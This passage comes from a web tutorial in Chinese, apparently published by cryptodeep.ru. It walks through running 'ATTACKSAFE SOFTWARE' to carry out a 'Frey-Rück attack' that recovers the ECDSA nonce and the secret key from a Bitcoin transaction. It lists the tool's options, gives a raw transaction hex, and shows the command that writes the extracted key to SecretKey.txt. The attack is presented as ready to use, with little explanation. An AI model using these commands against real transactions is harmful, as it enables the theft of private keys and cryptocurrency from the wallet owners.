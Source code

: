  -range:    specific range
  -crack:    crack mode
  -field:    starting field
  -point:    starting point
  -inject:   injection regimen
  -decode:   decoding mode</code></pre>



<pre class="wp-block-code"><code>./attacksafe -version</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-37.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-948"/></figure>



<p><code>"ATTACKSAFE SOFTWARE"</code>包括對比特幣的所有流行攻擊。</p>



<h2>讓我們列出所有攻擊：</h2>



<pre class="wp-block-code"><code>./attacksafe -list</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-38-1024x602.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-951"/></figure>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-39-1024x602.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-954"/></figure>



<p>然後選擇<code>&nbsp;-tool: frey_ruck_attack</code></p>



<p>要從易受攻擊的 ECDSA 簽名交易中獲取密鑰，讓我們將數據添加<code>RawTX</code>到文本文檔並將其保存為文件<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool frey_ruck_attack</code>使用軟件啟動<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-42-1024x261.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-963"/></figure>
